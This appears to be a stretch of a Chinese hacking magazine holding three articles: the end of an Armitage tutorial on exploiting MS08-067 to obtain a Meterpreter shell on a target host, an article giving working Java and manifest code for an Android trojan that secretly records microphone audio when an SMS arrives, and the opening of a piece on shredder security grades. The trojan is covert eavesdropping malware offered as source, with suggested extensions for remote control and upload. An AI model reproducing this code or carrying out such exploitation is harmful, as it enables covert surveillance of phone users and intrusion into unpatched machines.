

图 12

这里我选择 “smb”，然后弹出了菜单，可以看到菜单中有针对 ms08-067、ms10-061 等等的 exp。这里列出的是所有已知的针对该服务的 exploit，而不是说主机就一定存在这些漏洞。主机具体存在什么漏洞，还需要我们去检测。直接点击 “check exploit”，Armitage 就可以自动检测哪些漏洞是存在的。点击以后，Armitage 将针对这些 exploit 逐个进行检测，此时要注意 Armitage 下方的检测结果，“[*] This exploit does not support check” 说明该 exploit 不支持检测。如图 13 所示，它检测到主机存在 ms08-067。

这时，我们再在目标主机上点击右键，选择 “Attack—smb—ms08_067_netapi”，将弹出如图 14 所示的 exploit 配置窗口，直接默认，点击 “Launch” 按钮。



图 13



图 14

在攻击成功之前，Armitage 依然没有任何反应；长时间没反应则表明攻击失败了；倘若攻击成功，Armitage 的反应就比较大了，主机图标立即变成了如图 15 所示的那样。



图 15

这个时候再在主机图标上点击右键，则可以看到多出个 “Meterpreter” 菜单，该菜单中的子菜单就是各种针对主机的操作。我选择 “Interact—Command Shell” 可以打开一个 cmd，我在 cmd 中执行 ipconfig 的结果如图 16 所示。



图 16

我们已经成功地将一台存在 ms08-067 的机器沦为肉鸡了。Armitage 的全自动化非常有助于管理员对主机的漏洞测试，但希望用于合法用途。

前置知识：Java

关键词：Android，手机，安全

# Android 操作系统安全研究系列——手机窃听器

图/文 鬼谷先生

通过本系列前面几期文章的介绍，相信大家已经对 Android 操作系统有了一定的认识。之前介绍的基本都是通过技术手段获取 Android 手机本身的一些敏感信息，比如短信、通话录音等。那么是不是不使用这些功能就安全了呢？当然不是，如果被种植了恶意木马程序，即使不使用短信、电话功能也一样会存在安全事件。

看过《窃听风云》的朋友相信不会忘了这样一个情节：技术人员通过该科技手段将任意一部手机变成了窃听器，通过远程控制，开启手机窃听功能即可实现远程窃听。我们暂且不管电影中是不是虚构，但在 Android 操作系统中是完全可以实现的。

本文将结合前面两篇文章的知识进行扩展，将你的 Android 手机变成窃听器。首先，技术思路是这样的：我们写一个木马程序安装在 Android 手机上，该木马安装后处于潜伏期，当接收到短信指令后开始录音，录制一分钟后停止，将录音保存成音频文件。

代码基本是综合短信窃听和通话录音的思路，主要流程如图 1 所示。



下面说说核心代码吧。首先是注册广播接收者：

```java
public class SMSreceiver extends BroadcastReceiver
```

然后注册如下变量以供后面使用：

- myMediaRecorder 是媒体变量。
- SleepSec 是录音时间。
- isStartRec 是否开始录音。
- startRecTime 开始录音时间。

```java
private MediaRecorder myMediaRecorder;
private int SleepSec = 60;
private boolean isStartRec;
private long startRecTime;
```

下面是 onReceive 函数，功能是：当接收到短信时开始录音，并另起一个线程开始计时，当时间到一分钟时停止录音。

```java
public void onReceive(Context context, Intent intent) {
    if (intent.getAction().equals("android.provider.Telephony.SMS_RECEIVED")) {
        startRec();
        new Thread(myTasks).start();
    }
}
```

计时函数如下编写：

```java
private Runnable myTasks = new Runnable() {
    public void run() {
        while (System.currentTimeMillis() <= startRecTime + SleepSec * 1000) {
            try {
                Thread.sleep(1000);
            } catch (InterruptedException e) {
                e.printStackTrace();
            }
        }
        stopRec();
    }
};
```

下面是开始录音函数，该函数功能是将录音保存在 SD 卡里。与前面文章有所不同的是音频文件保存为 amr 格式。

```java
private void startRec() {
    try {
        if (Environment.getExternalStorageState().equals(android.os.Environment.MEDIA_MOUNTED)) {
            startRecTime = System.currentTimeMillis();
            File myRecAudioDir = Environment.getExternalStorageDirectory();
            File myRecAudioFile = File.createTempFile("GUIGU_TEST_", ".amr", myRecAudioDir);
            myMediaRecorder = new MediaRecorder();

            myMediaRecorder.setAudioSource(MediaRecorder.AudioSource.MIC);
            myMediaRecorder.setOutputFormat(MediaRecorder.OutputFormat.DEFAULT);
            myMediaRecorder.setAudioEncoder(MediaRecorder.AudioEncoder.DEFAULT);
            myMediaRecorder.setOutputFile(myRecAudioFile.getAbsolutePath());
            myMediaRecorder.prepare();
            myMediaRecorder.start();
            isStartRec = true;
        } else {
            SleepSec = 1;
        }
    } catch (Exception e) {
        e.printStackTrace();
    }
}
```

最后是停止录音函数，主要是停止录音，释放资源。

```java
private void stopRec() {
    if (isStartRec) {
        myMediaRecorder.stop();
        myMediaRecorder.release();
        myMediaRecorder = null;
    }
}
```

核心代码基本都完成了，下面还有就是声明权限和声明广播接收者，方法可以参考之前的文章，下面给出主要代码：

声明广播接收者，并设置意图过滤器：

```xml
<receiver android:name="SMSreceiver">
    <intent-filter>
        <action android:name="android.provider.Telephony.SMS_RECEIVED"/>
    </intent-filter>
</receiver>
```

申请权限：主要是短信接收权限、录音权限、写 SD 卡权限。

```xml
<uses-permission android:name="android.permission.RECEIVE_SMS"></uses-permission>
<uses-permission android:name="android.permission.RECORD_AUDIO"></uses-permission>
<uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE"></uses-permission>
```

编译测试，录音成功，如图 2 所示。



图 2

可以看到已经成功生成录音文件。以上代码只是一个简单的 demo，还有很多地方需要完善，比如用短信内容作为指令进行远程控制、用指令控制录音时间、将文件上传到指定服务器等。由于该功能有一定危害，在这里就不做进一步开发。

由此可见，手机安全、移动互联网安全已经逐步影响到我们的日常生活，因此大家在下载安装手机软件的时候一定要格外小心。也希望对智能终端安全感兴趣的朋友一起交流。

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：无

关键词：碎纸机，安全，保密

# 垃圾箱安全——碎纸机安全剖析


图/文 杨哲 | Longas

## 前言

现代办公环境中，很多企业出于安全保密需要，都配备了不同类型的粉碎敏感资料的设备，比如能够粉碎光盘、纸张的高级碎纸机。一直以来，很多人都认为：碎纸机简单方便安全性高，似乎只要把一份文件放进去，文件就永远消失了。事实真的如此么？这次我们就来看看身边碎纸机的安全。下面我们分几部分介绍。

- 碎纸机原理。
- 碎纸机保密等级。
- 碎纸拼接及内容恢复技术。
- 碎纸机面临的安全威胁。
- 小结。

碎纸方式是指当纸张经过碎纸机处理后被碎纸刀切碎后的形状。根据碎纸刀的组成方式，现有的碎纸方式有：碎状、段状、沫状、条状、粒状、丝状等。市面上有些碎纸机可选择两种或两种以上的碎纸方式。不同的碎纸方式适用于不同的场合，如果是一般性的办公场合，选择粒状、丝状、段状、条状的方式即可。但对一些保密性要求比较高的场合，就一定要用沫状的。比如当前采用四个刀片组成的碎纸方式就属于较为先进的方式之一，纸张的碎粒工整细微，能够达到保密的效果。

## 碎纸机原理

## 1. 关于碎纸机

根据国家保密局和国家统计局联合统计资料表明，我国 70% 的政治经济信息泄密，均是由于工作人员随意丢弃废纸和报废文件资料而不及时销毁所致。因此，国家保密局要求全国各党政机关、公检法军、金融保险、科研院所、新闻出版、社团组织以及大专院校、旅游饭店、医疗卫生、通信、各类大中小企业等必须采用碎纸机进行办公，并建议在全社会推广使用碎纸机。

图1为普通办公环境用碎纸机，图2为科研单位、政府部门等常用的碎纸机类型。

## 2. 碎纸机原理

简单地说，碎纸机是由一组旋转的刀刃、纸梳和驱动马达组成的。纸张从相互咬合的刀刃中间送入，被分割成很多细小纸片，以达到保密的目的。碎纸方式是指当纸张经过碎纸机处理后被碎纸刀切碎后的形状。





图1

图2

## 3. 关键的刀片

关于碎纸机的分类，有两个术语有必要掌握：Strip-cut shredders（条状切割碎纸机）和 Cross-cut shredders（交叉切割碎纸机）。这两者的区别就在于其采用的刀片不同。

拆开碎纸机来看，如图3中右侧刀具外形所示，Strip-cut shredders 顾名思义，由于采用较为简单的刀片构造，相当于在一个轴上安置了数个排列一致的刀片，在转动的同时就对纸张进行了直线形切割，最终碎掉的纸片也将表现出明显的长条状。如图4中所示，这样的碎纸效果明显还是能够轻易还原出原始内容的，完全不能满足安全需要。

而作为 Cross-cut shredders 就不一样了，我们通过图3中左侧能够看到类似于鲨鱼牙齿般组合的刀片转轮，彼此咬合且并不排列成直线，这样碎掉的纸片最终将呈现为粒状或者沫状，非常细小且极难复原。所以密级较高的碎纸机多采用此类刀片。





# 碎纸机保密等级

### 1．国产碎纸机保密等级划分

碎纸机保密等级是按照国际通用安全保密等级标准，并结合我国文字特征，同时参照国家保密局对涉密（《国家保密法》将国家秘密等级分为：绝密、机密、秘密）文件处理的有关要求，兼顾并符合机械行业执行标准 JB/T6165-92《文件粉碎技术条件》的要求制定而成。符合我国国情的碎纸机行业安全保密等级标准如表1所示：OAS20368 保密等级。

| 保密等级 | 绝密 | 机密 | 秘密 | 一般销毁处理 |
|---|---|---|---|---|
| 碎纸效果 | 1.2×1.9mm；2×2mm；1×6mm；0.78×11mm；0.8×12mm | 1.9×15mm；2×6mm；2×9mm；2×12mm；2×16mm | 3×30mm；3×25mm；3.8×40mm；4×30-80mm | 1.9mm；3mm；4mm |
| 纸屑面积 | ≤10mm² | ≤32mm² | ≤320mm² | ≤1740mm² |
| 碎纸形状 | 沫状 | 粒状 | 段状 | 条状 |

表1

### 2．国外碎纸机保密等级划分

目前主要提及的国外碎纸机安全保密等级有德国国家标准、美国国防部标准及美国国家安全局标准。其中：德国标准 DIN32757 有六种类型碎纸机的安全级别，其中六级安全代表最安全级别。通常来说，建议使用三级安全级别实现文件纸张切碎。六级安全通常针对绝密文件。下述六个安全级别的定义精确到了碎纸沫大小、切割方式等。仔细查看了德国标准 DIN32757 的详细定义，发现网上现在流传的很多帖子和文章中的表述居然不完整或者错误，花了点时间整理了较完善的版本如表2所示。

在 2008 年前的美国国防部 DoD 标准中，定义了绝密文件的碎纸类型应满足 0.8×11.1mm。美国国家安全局标准中，定义了 1×5mm 为所有美国政府的机密文件销毁标准，这个倒是和德国人做法是一样的。

| 保密等级 | 6 | 5 | 4 | 3 | 3 | 2 | 1 |
|---|---|---|---|---|---|---|---|
| 碎纸形状 | 丝状 | 丝状 | 粒状 | 段状 | 条状 | 条状 | 条状 |
| 碎纸效果 | 1×5mm；1×4mm | 0.78×11mm | 1.9×15mm | 3.9×30mm；3.9×40mm；3.9×50mm | 1.9mm | 3.9mm；5.8mm；7.5mm | 10.5mm；11.8mm |

表2 德国碎纸机保密等级

### 3．碎纸效果示例

碎纸效果是指纸张经过碎纸机处理后所形成的废纸大小，一般以毫米（mm）为单位。粒、沫状效果最佳，碎状次之，条、段状相对效果差些。例如 2×2mm 保密效果可将 A4 纸张切成 1500 多小块。不同场合可根据实际需要选择不同碎纸效果的碎纸机。如家庭和小型办公室不牵涉保密的场合可选用 4mm×50mm、4mm×30mm 等规格。而要求保密的场合根据毁灭资料最低标准，电脑印字文件必须碎至 3.8mm 以下的纸条。对于高度机密文件，应采用可纵横切割的碎纸机，最好选用达到 3mm×3mm 及以下规格碎纸效果的碎纸机。如 6 个图所示的碎纸效果分别对应上表2所示的德国安全保密等级。

- 图5 为一级安全（条状：10.5-11.8mm）。
